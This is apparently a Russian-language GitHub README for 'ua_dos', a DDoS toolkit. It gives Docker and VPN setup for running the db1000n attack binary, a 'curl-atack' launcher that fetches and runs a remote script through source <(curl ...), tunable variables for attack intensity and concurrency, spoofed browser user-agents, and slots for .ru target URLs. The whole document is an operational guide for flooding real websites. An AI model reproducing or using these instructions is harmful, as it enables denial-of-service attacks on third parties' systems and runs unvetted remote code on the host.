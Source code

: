 # ua_dos
## Docker
Внутри докера запускается pptp vpn соединение и бинарник db1000n проекта https://github.com/Arriven/db1000n.
Файлы конфигурации pptp размещаются в директории: `ansible/confign/files/vpn*` и файл паролей `ansible/confign/files/chap-secrets`.
При сборке image они забираются внутрь.

Собирается image командой:
```
docker image build --force-rm -t ua_dos:0.1 .
```
После чего нужно создать network ipvlan типа:
```
docker network  create -d ipvlan --subnet=192.168.0.0/24 -o parent=wlo1 gwnet
```
Здесь `192.168.0.0/24` - сеть, которую раздает wifi роутер (С помощью которой хостовая машина подключена к интернету); `wlo1` - название wifi интерфейса в ноутбуке (На котором выше описаная сеть от роутера); `gwnet` - название новосозданной сети docker.
Эту информацию можно посмотреть в выводе команды `ifconfig` на хостовой машине (В данном случае ноутбук).

Запуск контейнера можно осуществлять двумя способами:
 1. В интерактивном режиме:
```
docker run --name node1 --privileged --net=gwnet --ip 192.168.0.2 -it ua_dos:0.1 vpn1
```
 2. В режиме демона:
```
docker run --name node2 --privileged --net=gwnet --ip 192.168.0.3 -d ua_dos:0.1 vpn1
```
Где `vpn1` - название vpn подключения, которое будет инициировано при запуске контейнера. `--ip 192.168.0.3` - IP адрес который будет присвоек запускаемому контейнеру (Должен быть из ранее созданной сети `--subnet=192.168.0.0/24`)
Настроить проброс ssh пока не получилось.

## Legacy
Атака `ntct` заброшена, с `curl-atack` можно работать.

1. Создай файл с любым названием *(Например: "curl-atack")*.
2. Запиши в файл две строки:
```
#!/bin/bash
source <(curl -Ls https://raw.githubusercontent.com/bro2020/ua_dos/main/curl-atack)
```
3. Сделай файл исполняемым, выполнив команду:
```
chmod +x "название файла"
(Например: chmod +x curl-atack)
```
4. Запусти файл:
```
./"название файла"
(Например: ./curl atack)
```
Загрузка таргетов пошла, через несколько секунд отобразится информация, которая будет обновляться.

Для остановки на клавиатуре зажать `Ctrl+C`. При этом завершаться **ВСЕ** процессы curl запущенные в операционной системе!

Если хочешь переопределить параметры, для увеличения/уменьшения интенсивности и увеличения/уменьшения нагрузки на оборудование ...

1. Создай файл `curl-atack-env.txt`
2. Запиши в него следующие строки:
```
rcount=$((RANDOM%10+7)) # количетво итераций, после которого принудительно завершаются процессы curl
sq1=$((RANDOM%3+1)) # количество параллельно выполняемых циклов
sq2=$((RANDOM%3+2)) # количество прогонов в каждом из параллельных циклов (1 итерация)
t1=$((RANDOM%7+7)) # таймают перед принудительным завершением процессов curl)
t2=$((RANDOM%2+1)) # таймаут(скорость) запуска проходов в параллельно выполняемых циклах
t3=$((RANDOM%3+1)) # таймаут после завершения всех проходов в параллельных циклах
t4='15' # таймаут автоматического непрерывного завершения процессов curl в каждом проходе

UA1='Mozilla/5.0 (Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA2='Mozilla/5.0 (Macintosh; Intel Mac OS X 12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA3='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA4='Mozilla/5.0 (Linux; Android 10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.78 Mobile Safari/537.36'
UA5='Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0'
```
3. Меняй их по вкусу. Сюда же можно вписать свои таргеты в виде задания переменных:
```
H1='http://target.ru'
...
H50='https://target.ru'
```
